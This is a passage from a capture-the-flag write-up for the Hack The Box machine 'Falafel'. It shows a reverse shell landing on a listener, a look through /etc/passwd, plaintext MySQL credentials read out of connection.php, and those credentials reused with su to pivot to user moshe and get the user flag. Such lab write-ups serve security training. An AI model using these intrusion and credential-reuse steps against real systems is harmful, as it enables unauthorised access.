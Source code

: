 
From `burpsuite`, I can manipulate the query string and get myself a reverse shell.
```bash
Listening on [any] 9001 ...
connect to [10.10.14.200] from (UNKNOWN) [10.10.10.73] 35178
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$
```

# <a name="privesc"></a> Privilege escalation
First thing I always do is check out the `/etc/passwd` file and see what other user accounts there are.

<div class="alert alert-success"><strong>Discovered</strong>
    User: moche <br>
    User: yossi <br>
</div>

I enumearate the system a little, and come acrosss `connection.php`
```bash
ww-data@falafel:/var/www/html$ cat connection.php 
<?php
   define('DB_SERVER', 'localhost:3306');
   define('DB_USERNAME', 'moshe');
   define('DB_PASSWORD', 'falafelIsReallyTasty');
   define('DB_DATABASE', 'falafel');
   $db = mysqli_connect(DB_SERVER,DB_USERNAME,DB_PASSWORD,DB_DATABASE);
   // Check connection
   if (mysqli_connect_errno())
   {
      echo "Failed to connect to MySQL: " . mysqli_connect_error();
   }
?>
www-data@falafel:/var/www/html$ 
```
<div class="alert alert-info"><strong>Discovered</strong><br>
SQL credentials - moshe:falafelIsReallyTasty
</div>

Knowing from earlier there is a user on the system called `moshe`, I try my luck at pivoting to this user with the MySQL password
```bash
www-data@falafel:/var/www/html$ su moshe
Password: 
setterm: $TERM is not defined.
moshe@falafel:/var/www/html$ cat /home/moshe/usr.txt
{{REDACTED}}
```
<div class="alert alert-success"><strong>Success</strong><br>
Pivoted to user <strong>moshe</strong><br>
User flag obtained!
</div>
